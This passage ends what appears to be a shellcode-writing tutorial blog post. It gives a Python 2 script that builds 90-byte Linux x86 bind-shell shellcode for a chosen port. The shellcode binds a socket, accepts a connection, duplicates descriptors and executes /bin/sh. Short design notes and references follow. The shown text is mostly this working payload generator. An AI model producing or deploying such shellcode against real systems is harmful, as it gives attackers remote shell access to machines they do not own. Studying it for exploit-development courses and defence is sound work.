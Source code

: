    
    
    #!/usr/bin/python  
      
    import socket  
    import sys  
    import struct  
      
    if len(sys.argv) is not 2:  
        print "Usage: {0} PORT".format(sys.argv[0])  
        exit()  
      
    port = int(sys.argv[1])  
      
    if port < 1 or port > 65535:  
        print "Are you kidding?"  
        exit()  
      
    if port <= 1000:  
        print "Port will bind only if run as root"  
      
    # ugly code, don't look  
    port = format(port, '04x')  
    port = "\\x" + str(port[2:4]) + "\\x" + str(port[0:2])  
      
    sc = "\\x6a\\x66\\x58\\x99\\x31\\xdb\\x43\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x96\\x52\\x43\\x66\\x68" + port + "\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x56\\x89\\xe1\\x6a\\x66\\x58\\xcd\\x80\\x53\\x56\\x89\\xe1\\x6a\\x66\\x58\\x43\\x43\\xcd\\x80\\x52\\x52\\x56\\x89\\xe1\\x43\\xb0\\x66\\xcd\\x80\\x93\\x31\\xc9\\xb0\\x3f\\xcd\\x80\\x41\\x80\\xf9\\x04\\x75\\xf6\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xd1\\xb0\\x0b\\xcd\\x80"  
      
    print "Shellcode generated:"  
    print sc  
    

  

## Final notes

1\. Shellcode is **null free** assuming the port number is too.  
2\. Shellcode size is **90 bytes**.  
3\. Shellcode is **register-independant**.  
  

## References:

1\. http://man7.org/linux/man-pages/man2/socketcall.2.html  
2\. http://lxr.free-electrons.com/source/net/socket.c?v=2.6.35#L2210  
3\. Hacking: The Art of Exploitation (2nd Edition) - Chapter 4 and 5  
  
\- Abatchy

